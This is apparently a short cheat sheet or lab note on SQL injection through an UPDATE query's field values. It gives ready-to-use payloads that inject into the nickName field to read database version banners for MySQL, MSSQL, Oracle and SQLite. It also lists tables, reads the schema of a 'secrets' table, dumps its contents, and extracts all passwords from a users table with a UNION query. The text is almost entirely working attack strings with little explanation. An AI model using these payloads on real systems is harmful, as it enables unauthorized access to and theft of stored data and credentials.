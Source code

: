 ```UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>```
UPDATE usertable SET nickName='capybara',email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
UPDATE usertable SET nickName='',nickName='database()', email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
```
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```
SQLite

```',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='```

```',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='```

```',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email='```

```' UNION SELECT 1,group_concat(password) FROM users-- -```



